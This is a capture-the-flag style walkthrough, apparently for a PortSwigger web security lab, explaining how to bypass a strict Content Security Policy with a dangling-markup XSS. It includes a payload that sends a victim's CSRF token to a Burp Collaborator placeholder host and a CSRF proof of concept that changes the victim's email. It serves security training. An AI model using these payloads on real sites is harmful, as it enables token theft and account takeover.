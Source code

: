 # Lab 15:Reflected XSS protected by very strict CSP, with dangling markup attack

This lab uses a **strict Content Security Policy (CSP)** that blocks outgoing requests to external websites.

---

## 🎯 Objective

> First, perform a cross-site scripting (XSS) attack that bypasses CSP and exfiltrates the victim’s CSRF token using Burp Collaborator.
> 
> 
> Then, change the victim user's email address to:
> 
> `hacker@evil-user.net`
> 

📝 **Note:** Your XSS **must contain the label** `Click` to induce the simulated user to click it:

```html
<a href="">Click me</a>
```

✅ You can log in to your own account using the credentials:

**Username:** `wiener`

**Password:** `peter`

---

## 🧪 Walkthrough

### 🔍 Step 1: Identify the Vulnerability

- Log in to the lab using the credentials provided.
- Examine the **change email** functionality.
- Observe that an **XSS vulnerability exists in the `email` parameter**.

---

### 🌐 Step 2: Prepare Collaborator Payload

- Open **Burp Collaborator** tab.
- Click **"Copy to clipboard"** to copy your unique Collaborator subdomain.

---

### 🧨 Step 3: Craft the Exploit

Go to the **exploit server** and paste the following code into the body:

```html
<script>
if(window.name) {
    new Image().src='//BURP-COLLABORATOR-SUBDOMAIN?'+encodeURIComponent(window.name);
} else {
    location = 'https://YOUR-LAB-ID.web-security-academy.net/my-account?email=%22%3E%3Ca%20href=%22https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit%22%3EClick%20me%3C/a%3E%3Cbase%20target=%27';
}
</script>
```

> 🔁 Replace:
> 
> - `BURP-COLLABORATOR-SUBDOMAIN` with your Collaborator domain.
> - `YOUR-LAB-ID` with your lab instance ID.
> - `YOUR-EXPLOIT-SERVER-ID` with your exploit server ID.
- Click **Store**, then **Deliver exploit to victim**.

---

### 📡 Step 4: Exfiltrate the CSRF Token

- After the victim clicks the **"Click me"** link, go back to Burp → **Collaborator tab**.
- Click **"Poll now"**.
- You should see an **HTTP interaction** initiated by the browser.
- Select the interaction → go to **Request tab** → **Copy the CSRF token**.

---

### ✏️ Step 5: Change Victim's Email Address

### a. Capture and Prepare the Request

- Switch **Intercept ON** in Burp.
- Go to the **change email** form → submit with any email.
- Intercept the request → **change `email` to `hacker@evil-user.net`**.

### b. Generate CSRF Proof of Concept (PoC)

- Right-click the intercepted request →
    
    **Engagement Tools > Generate CSRF PoC**.
    
- In the generated HTML:
    - Replace the CSRF token with the one stolen earlier.
- Click **Options** → ensure **"Include auto-submit script"** is enabled.
- Click **Regenerate** → **Copy HTML**.

### c. Deliver Final Exploit

- Paste the final CSRF HTML into the **exploit server body** (overwrite the earlier script).
- Click **Store**, then **Deliver exploit to victim**.

> 🎯 The lab is solved once the user’s email is changed to hacker@evil-user.net.
> 

---

## 🎥 Community Solutions

📺 [Watch the full walkthrough](https://youtu.be/hp_djQ62GEc)